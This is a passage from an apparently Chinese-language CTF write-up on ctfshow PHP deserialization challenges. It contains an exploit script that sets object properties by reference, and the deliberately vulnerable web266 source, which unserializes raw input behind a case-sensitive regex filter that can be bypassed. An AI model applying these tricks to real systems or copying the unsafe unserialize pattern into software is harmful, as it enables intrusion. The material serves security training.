 输出的 `$a` 和 `$b` 相等。

exp：

```php
<?php

class ctfshowAdmin{
    public $token;
    public $password;
}

$ctfshow = new ctfshowAdmin();
$ctfshow->token=md5(mt_rand());
$ctfshow->password = &$ctfshow->token;

echo urlencode(serialize($ctfshow));
```

## web266~大小写绕正则

```php
<?php


highlight_file(__FILE__);

include('flag.php');
$cs = file_get_contents('php://input');


class ctfshow{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public function __construct($u,$p){
        $this->username=$u;
        $this->password=$p;
    }
    public function login(){
        return $this->username===$this->password;
    }
    public function __toString(){
        return $this->username;
    }
    public function __destruct(){
        global $flag;
        echo $flag;
    }
}
$ctfshowo=@unserialize($cs);
if(preg_match('/ctfshow/', $cs)){
    throw new Exception("Error $ctfshowo",1);
}

```
